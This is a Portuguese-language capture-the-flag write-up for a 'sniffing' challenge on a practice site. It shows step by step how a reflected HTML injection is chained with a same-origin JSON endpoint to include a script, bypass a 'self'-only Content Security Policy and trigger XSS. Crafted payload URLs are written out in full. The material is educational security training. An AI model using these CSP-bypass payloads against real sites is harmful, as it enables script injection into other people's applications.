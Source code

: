 ### Resolução do desafio sniffing

1. Acessamos o endereço do desafio: https://bountyleaks.cf/sniffing.php
2. Um redirecionamento é feito para https://bountyleaks.cf/sniffing.php?message=You%20was%20successfully%20logged%20out
3. Se alterarmos o texto, inclusive com tags html, vemos que ela é refletida na página:
https://bountyleaks.cf/sniffing.php?message=<button>Teste</teste>
4. Mas, se tentarmos triggar um XSS com ```<script>alert(document.domain)</script>``` o alerta não é triggado. Por quê?
4.1 Para entender essa questão, acesse https://bountyleaks.cf/sniffing.php?message=<script>alert(document.domain)</script> e abra o console do navegador, apertando ctrl + shit + i e clicando na aba console
4.2 Observe o erro retornado pelo navegador devido à tentativa de execução de script nessa página:
Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'self' sha256-Cn8Hzq+wmgPb5X2xqCqolSgXTEGPQNOsUufW22rF2Pg='". Either the 'unsafe-inline' keyword, a hash ('sha256-X6WoVv8sUlFXk0r+MI/R+p2PsbD1k74Z+jLIpYAjIgE='), or a nonce 'nonce-...') is required to enable inline execution.
4.3 O erro relata que o script não foi possível executar devido à política CSP vigente nessa aplicação.
O que faz sentido, pois ao vermos o código fonte da página, vemos o CSP declarado começando assim:
<meta http-equiv="Content-Security-Policy" content="base-uri 'self'; default-src 'self'; script-src 'self'
4.4 Repare que na parte de scripts, somente existe o valor 'self', ou seja, caso formos inserir qualquer <script src='url'> a url obrigatoriamente precisa ter a mesma origem do site acessado, devido ao parâmetro "self" (portanto bountyleaks.cf)
4.5 Outra observação interessante é que não existe o valor unsafe-inline, desse forma qualquer xss inline não será executado pois não foi de forma descrita liberado.
XSS como <script>alert(1)</script>, <img src=x onerror=alert()> não serão executados, exibindo erro de CSP no console tambem.
5. Sabemos então, que com o atual contexto, não conseguiremos triggar um xss usando o parâmetro message  (https://bountyleaks.cf/sniffing.php?message=)
6. Olhando mais o site, vemos que um script é importado de uma outra página:
<script src='/version.php'></script>
7. Você entende agora por que esse script não é bloqueado pelo CSP? Pois ele atende ao requisito do CSP, uma vez que se encaixa no contexto 'self', sendo de mesma origem, pois seu endereço é https://bountyleaks.cf/version.php
8. Ao abrirmos a página version.php vimos a principio um JS.
9.  Caso façamos um fuzzing de parametros nessa página (https://bountyleaks.cf/version.php?FUZZ=teste, descobrimos que existe um parametro que reflete na página: version
10. Portanto, https://bountyleaks.cf/version.php?version=<script>alert(1337)</script>, refletirá na página o payload
11. Pronto, achamos um XSS nessa página? Hm, também não. Por quê? Por que a página se você ver a resposta da página, verá que ela possui content-type application/json. Dessa forma, o conteúdo da página não está sendo tratado como um javascript, ou como html. O navegador não irá renderizar tags a fim de criar um alerta.
12. Agora chega o momento que devemos pensar que :
- Temos a página sniffing com o parametro message sendo refletido, podendo injetar html, mas o CSP exige que a tag script tenha mesma origem no parametro src
- Temos uma página (de mesma origem) que reflete o conteudo de um parâmetro, mas seu content-type é application/json
13. Dessa forma, podemos incluir a segunda página na primeira (embedding), usando a tag <script>.
13.1 Vamos primeiro fazer uma modificação na segunda página para vocês verem que será refletida na primeira:
https://bountyleaks.cf/version.php?version=123%27,%27teste%27:%271

Veja que criamos uma nova chave e valor no JSON da página, chamado teste

13.2 Agora, vamos incluir essa URL na primeira página, ficando assim:
https://bountyleaks.cf/sniffing.php?message=<script%20src=%27https://bountyleaks.cf/version.php?version=123%2527,%2527teste%2527:%25271337%27></script><!--

- Nesta URL fizemos algumas modificações:
alteramos a aspas simples (%27) para double encoding (%2527), não para bypassar algo, mas se você visse no código fonte, veria que caso não o fizessemos, quebraria a estrutura da pagina
- A fim de demonstrar o cenário refletido, acrescemos um <!-- ao final, o que comentará todo o resto da página (desabilitando suas execuções posteriores). A explicação é que estamos incluindo a página /version.php dentro de um script, com argumentos nossos.
Mas logo a baixo, existe um outro <script src='version.php'> (nativo da página). Isto sobrescreveria nossos valores, e no momento quero mostrar para vocês que os valores estão refletindo, antes de triggar o XSS.

13.3 Após acessar a URL do item 13.2, abrimos o console do navegador e digitamos app.teste
Veja que o valor 1337 é retornado
13.4 Conseguimos incluir um script arbitrário! Agora só falta modificá-lo para ser um xss!

14. Sabendo que a chave pra resolver o desafio é manipular a segunda página para quando for processada pela primeira em formado de Javascript, vamos criar a segunda URL dessa forma:

https://bountyleaks.cf/version.php?version=123%27};alert(document.domain)//

E incluiremos na primeira página, ficando dessa forma:

https://bountyleaks.cf/sniffing.php?message=<script%20src=%27https://bountyleaks.cf/version.php?version=123%2527};alert(document.domain)//%27></script>

15. Desafio resolvido \o/

Você acaba de bypassar duas convicções dos desenvolvedores:

que o CSP da primeira página por ser de mesma origem é seguro e que usando o content-type application/json nunca abre margem para um xss (aqui usamos uma tecnica chamada content sniffing ou mime sniffing)

